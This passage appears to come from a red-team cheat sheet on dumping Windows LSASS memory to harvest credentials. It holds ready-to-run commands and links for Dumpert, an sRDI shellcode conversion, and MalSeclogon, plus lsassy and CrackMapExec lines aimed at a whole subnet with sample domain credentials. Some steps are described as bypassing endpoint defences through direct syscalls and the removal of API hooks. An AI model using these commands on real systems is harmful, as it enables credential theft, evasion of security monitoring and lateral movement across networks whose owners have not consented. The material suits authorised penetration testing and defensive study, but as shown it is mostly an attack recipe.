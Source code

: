 Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```



### MalSeclogon

- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [https://github.com/antonioCoco/MalSeclogon](https://github.com/antonioCoco/MalSeclogon)

```
Cmd > Malseclogon.exe -p <LSASS_PID> -d 1
Cmd > Malseclogon.exe -p <LSASS_PID> -d 2
```
